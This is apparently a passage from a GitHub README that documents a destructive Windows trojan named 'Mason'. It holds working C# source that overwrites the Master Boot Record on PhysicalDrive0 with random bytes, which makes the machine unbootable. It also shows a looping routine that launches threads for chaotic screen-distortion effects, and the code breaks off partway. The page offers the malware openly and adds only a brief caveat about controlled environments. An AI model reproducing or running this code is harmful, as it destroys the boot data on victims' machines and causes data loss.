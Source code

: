 
### **4. System Manipulation** 💻
The `MasonMBR` method overwrites the Master Boot Record (MBR) with random data, rendering the system unbootable. This is a destructive operation and should only be used in controlled environments.

```csharp
private static void MasonMBR()
{
    using (FileStream fs = new FileStream(@"\\.\PhysicalDrive0", FileMode.Open, FileAccess.Write))
    {
        byte[] mbrData = new byte[FreemasonryMBR];
        Random rand = new Random();
        rand.NextBytes(mbrData);
        fs.Write(mbrData, 0, FreemasonryMBR);
    }
}
```

---

### **5. Multi-threaded Execution** 🧵
The `MasonGDI` method runs multiple threads simultaneously, each performing a different graphical effect. This creates a chaotic and unpredictable environment.

```csharp
    static void MasonGDI()
    {
        while (true)
        {
            Mason1Thread = new Thread(MasonFarewell);
            Mason1Thread.IsBackground = true;
            Mason1Thread.Start();
            Thread.Sleep(10000);
            MasonClear();
            Mason2Thread = new Thread(MasonRandomly);
            Mason2Thread.IsBackground = true;
            Mason2Thread.Start();
            Thread.Sleep(10000);
            MasonClear();
            Mason3Thread = new Thread(MasonRepetition);
            Mason3Thread.IsBackground = true;
            Mason3Thread.Start();
            Thread.Sleep(10000);
            MasonClear();
            Mason4Thread = new Thread(MasonScribble);
            Mason4Thread.IsBackground = true;
            Mason4Thread.Start();
            Thread.Sleep(10000);
            MasonClear();
            Mason5Thread = new Thread(MasonGetdown);
            Mason5Thread.IsBackground = true;
            Mason5Thread.Start();
            Thread.Sleep(10000);
            MasonClear();
            Mason6Thread = new Thread(MasonGlitch);
            Mason6Thread.IsBackground = true;
            Mason6Thread.Start();
            Thread.Sleep(10000);
            MasonClear();
            Mason7Thread = new Thread(MasonMelting);
            Mason7Thread.IsBackground = true;
            Mason7Thread.Start();
            Thread.Sleep(10000);
            MasonClear();
            Mason8Thread = new Thread(MasonConfusion);
```